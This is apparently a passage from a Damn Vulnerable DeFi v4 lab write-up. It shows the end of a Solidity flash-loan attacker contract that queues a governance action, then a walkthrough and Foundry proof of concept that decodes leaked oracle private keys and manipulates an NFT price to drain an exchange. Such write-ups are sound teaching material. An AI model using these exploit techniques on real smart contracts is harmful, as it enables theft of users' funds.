 ```solidity
        address,
        address token,
        uint256 amount,
        uint256,
        bytes calldata data
    ) external returns (bytes32) {
        // voting logic)
        DamnValuableVotes(token).delegate(address(this));

        governance.queueAction(address(pool), 0, data);

        DamnValuableVotes(token).approve(address(pool), amount);
        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }
}
```

Run `forge test --mp test/selfie/Selfie.t.sol --isolate` to validate test

---

## 7.COMPROMISED

**Objective**

_from `_isSolved()` in test_

1. _Exchange doesn't have ETH anymore_
2. _ETH was deposited into the recovery account_
3. _Player must not own any NFT_
4. _NFT price didn't change_

**Attack Analysis**

- The contracts do not present any flaw that could be used to drain the exchange liquidity. Thus, better to start by analysing the leaked data from the server.
- Because of the context, it's safe to assume that they could potentially be private keys.
- Let's first ascii decode them using [rapidtables](https://www.rapidtables.com/convert/number/hex-to-ascii.html). Then, let's base64 decode the result using [base64decode](https://www.base64decode.org/).
- The final result obtained could be a private key. To validate it, let's use [rfctools](https://www.rfctools.com/ethereum-address-test-tool/). Now, we can see that they are private keys to `source[0]` and `source[1]`, both used for price feeds functionalities, see [test/compromised/Compromised.t.sol](https://github.com/CanonicalJP/damn-vulnerable-defi-v4/blob/b99a51c7056487472824550e0764b4aa390bb4ae/test/compromised/Compromised.t.sol#L24-L28)
- Having access to the private keys of these sources, and attacker could manipulate the price of the token to buy low and sell high. Effectively draining liquidity from the exchange.

**POC**

See [test/compromised/Compromised.t.sol](https://github.com/CanonicalJP/damn-vulnerable-defi-v4/blob/master/test/compromised/Compromised.t.sol)

```solidity
function test_compromised() public checkSolved {
    Attack attackExchange = new Attack(oracle, exchange, nft);

    vm.prank(sources[0]);
    oracle.postPrice(symbols[0], 0);
    vm.prank(sources[1]);
    oracle.postPrice(symbols[0], 0);

    attackExchange.buy{value: 1}();

    vm.prank(sources[0]);
    oracle.postPrice(symbols[0], 999 ether);
    vm.prank(sources[1]);
```